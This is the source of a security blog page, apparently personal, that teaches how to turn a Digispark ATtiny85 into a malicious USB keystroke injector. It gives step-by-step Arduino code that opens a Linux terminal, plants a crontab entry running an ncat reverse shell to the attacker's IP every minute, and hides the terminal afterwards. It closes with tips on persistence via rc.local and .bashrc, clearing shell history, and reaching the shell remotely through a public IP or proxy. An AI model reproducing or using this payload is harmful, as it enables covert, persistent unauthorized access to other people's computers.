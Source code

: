 ```yaml
---
layout: page
title: USB Keyboard Injectors
subtitle: Using the Digispark Attiny 85
permalink: /usb_injectors/
---
```


# Introduction
If you are unaware of what USB injectors are they essentially act as a keyboard with pre-programmed instructions. These instructions act as normal keystrokes that you would see from any other keyboard, it just stores what you want to type out and does so automatically when the USB is plugged in. This is very useful because a keyboard is implicitly trusted and there are a number of shortucts that can be used to reach a command prompt / shell, run dialog, or anything else that can be used to compromise a machine.<br><br>
On top of this, a study conducted by the Department of Homeland Security years ago showed that, situation dependant, <a href="https://www.computerworld.com/article/2510014/government-tests-show-security-s-people-problem.html" target="_blank" rel="noopener noreferrer">over 50% of people that picked up the USBs plugged them in to their computers</a>. These numbers increase when the USBs have official looking logos and decrease with proper education / security awareness. Even if the number today is only half what is was back then it remains a concerning statistic, but great for those trying to use people to compromise a machine or network. Malicious USBs can be absolutely devastating to a network, just look at what happened in Iran with Stuxnet (of which the U.S. was 100%, absolutely, unquestionably in _no way involved_).
<br><br>
As mentioned, this page will cover the <a href="http://digistump.com/products/1" target="_blank" rel="noopener noreferrer">Digispark Attiny 85</a>, pictured below.<br>
<p align="center"><img width="300" src="/assets/malicious_usbs/digiattiny85.jpg"></p>
These scripts can be installed on the Digispark boards through the Arduino IDE, which can be downloaded from <a href="https://www.arduino.cc/en/software" target="_blank" rel="noopener noreferrer">here</a>. I'm not going to cover the exact installation process because whether you go the Windows or Linux route it's going to be a pain, and there are more than enough tutorials already out there that cover the process. If you go the Linux route you'll need to configure udev rules for your system (reference <a href="https://startingelectronics.org/tutorials/arduino/digispark/digispark-linux-setup/" target="_blank" rel="noopener noreferrer">here</a>) or install the correct drivers if you go the Windows route (start <a href="https://github.com/digistump/DigistumpArduino/releases" target="_blank" rel="noopener noreferrer">here</a>).
<br><br><br>

# Example: Configuring the crontab to install a reverse shell
The script I wrote can be found in its entirety <a href="https://raw.githubusercontent.com/fe-moldark/wesleykent-website/gh-pages/assets/malicious_usbs/reverse_shell_crontab.ino" target="_blank" rel="noopener noreferrer">here</a>, and before you actually try to write this to the Digispark board you will need to edit the IDE's preferences tab to install the Digispark library and then from the boards manager as well on the IDE - again, there are a million tutorials for this.
<br><br>
Excluding defining a few keys in the beginning the script takes place almost entirely in the `void loop()`, which I will now go over. This section below will press the key combination "CTRL+ALT+T", which on Ubuntu (and other linux distros) will open up a console. From there the I entered in `crontab -e` which will allow us to edit the crontab in the next step. Here is what that looks like:
<br>
```scala
void loop() {
  DigiKeyboard.delay(2000);
  DigiKeyboard.sendKeyStroke(KEY_T , MOD_CONTROL_LEFT | MOD_ALT_LEFT); //start the shell
  DigiKeyboard.delay(600);
  DigiKeyboard.print("crontab -e");
  DigiKeyboard.delay(300);
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
```
<br>
This next section is necessary because of an unknown factor, which is whether or not the user has configured their crontab before. If a user has already done so then the above `crontab -e` will bring them straight to editing. If they have not, however, there will first be a prompt to select a text editor to use (e.g. nano, vim, etc) and only then will you be forwarded to it. Since one can't know this, the script assumes that the crontab has _not_ been configured and enters in the proper keystrokes to get you there. If it already has been configured then you will needlessly enter in a "1" to what would have selected the editor and then the "ENTER" key, which is then erased by two quick backspace keystrokes. What that looks like is as follows:
```scala
  //In case no crontab has been installed
  DigiKeyboard.print("1");
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  DigiKeyboard.delay(700);
  DigiKeyboard.sendKeyStroke(KEY_DELETE);
  DigiKeyboard.sendKeyStroke(KEY_DELETE);
  DigiKeyboard.delay(700);
```
<br>
These next few lines will navigate far down to the bottom of the crontab in an attempt to hide the reverse shell command at first glance:
```scala
  //punch down to the very bottom to hide the following command
  for (int i=0;i<45;i++) {
    DigiKeyboard.sendKeyStroke(KEY_ARROW_DOWN);
  }
```
<br>
Now to actually write the reverse shell command into the crontab. The five asterisks indicate this script will run every minute of every hour of every day. If you wanted to have this only execute at a particular time of day you could designate e.g. every Wednesday at 6:15PM instead.<br>
```scala
  DigiKeyboard.print("* * * * * ncat 192.168.11.59 4444 -e /bin/sh"); //this will need to be customized to your local IP and port
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
```
Note: It might be worth it to install two separate commands, one with `ncat` and the other with `nc` since only one of those might be installed on the machine. You will also need to configure your own IP address into this command.<br><br>
After installing that cronjob the following keytrokes will exit the crontab with "CTRL+X" and then save the changes with "Y" and "ENTER"" to confirm.<br>
```scala
  DigiKeyboard.sendKeyStroke(KEY_X , MOD_CONTROL_LEFT);
  DigiKeyboard.sendKeyStroke(KEY_Y);
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  DigiKeyboard.delay(700);
```
<br>
The last command, "CTRL+SHIFT+Q" will close out the shell so no one is aware of what just happened.<br>
```scala
  DigiKeyboard.sendKeyStroke(KEY_Q , MOD_CONTROL_LEFT | MOD_SHIFT_LEFT); //close out the terminal
  DigiKeyboard.delay(700);
  DigiKeyboard.sendKeyStroke(KEY_ENTER)

}
```

To receive the shell on your local host all that is needed is a netcat listener open on the right IP address and corresponding port:
<p align="center"><img width="850" src="/assets/malicious_usbs/nc listener.png"></p>
The shell we initially recieve is not very stable or powerful. For example, when I tried to switch users in the first shell that was provided the prompt for the password appeared on the target machine instead of my own, and there were a number of other commands that similarly did not work. Now there are several ways to upgrade the shell, some of which I covered on [this](/tipsandtricks/privilegeescalation/) page. Perl was either not installed on this machine or did not work, and same with Python. Python3, however, was installed and I could upgrade the shell as seen with the following command:<br>
<p align="center"><img width="625" src="/assets/malicious_usbs/upgrade shell.png"></p><br>
From there you can install more scripts to further enumerate and exploit the machine, and install more malware to grant you backdoor access in the event that the crontab command is discovered and removed, perhaps that user account is deleted entirely, etc.
<br><br><br>

# Final thoughts
It's worth noting that different users will have separate crontabs, but they will still execute even when not logged in. I noticed this when I first uploaded the reverse shell to a test user, completely logged out of that account to work on writing this page and the nc listener still activated later from that same cronjob.
<br><br>
This same idea of using the crontab to keep a constant reverse shell pathway open is not the only option. Since this exploit is focused on Linux you could also target the `rc.local` and `.bashrc` files to only reach out to you whenever the system boots or when a user opens a new shell. Get as creative as you want with it.
<br><br>
Another way to hide your actions before you close out the shell would be to delete the last commands you have entered from the history file, but you would only need that if you were trying to cover every possible trace. Since you will likely not always be on the same network you are trying to exploit you might want to use your Public IP address or some proxy server instead, and after configuring proper port forwarding rules you could gain access remotely from the comfort of your own home.
<br><br>
And this goes without saying but I'm going to say it anyways - don't do anything stupid with these USBs or scripts. If you do that's all on you. Cheers.
<br><br>
